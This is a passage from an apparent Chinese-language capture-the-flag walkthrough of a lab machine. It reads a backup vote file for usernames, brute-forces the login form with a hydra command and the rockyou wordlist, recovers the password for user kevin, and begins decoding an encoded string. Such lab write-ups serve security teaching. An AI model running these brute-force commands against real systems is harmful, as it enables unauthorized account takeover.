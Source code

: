 访问 `/backup/`，得到

```plaintext title="http://192.168.56.107/backup/vote.txt"
rijaba: Yes
xerosec: Yes
sml: No
cromiphi: No
gatogamer: No
chema: Yes
talleyrand: No
d3b0o: Yes

Since the result was a draw, we will let you enter the darkside, or at least temporarily, good luck kevin.
```

在其中，可以得到以下用户名

```plaintext
rijaba
xerosec
sml
cromiphi
gatogamer
chema
talleyrand
d3b0o
kevin
```

根据提示，针对 `kevin` 用户发起攻击

```shell
┌─[randark@parrot]─[~]
└──╼ $hydra -v -V -l kevin -P /usr/share/wordlists/rockyou.txt -I 192.168.56.107 http-post-form "/:user=kevin&pass=^PASS^:invalid"
......
[80][http-post-form] host: 192.168.56.107   login: kevin   password: iloveyou
```

得到以下凭据

```plaintext
kevin:iloveyou
```

登录之后，得到这份信息

```plaintext
kgr6F1pR4VLAZoFnvRSX1t4GAEqbbph6yYs3ZJw1tXjxZyWCC
```

使用 [Cyberchef](https://gchq.github.io/CyberChef) 的 magic 模块尝试自动解码

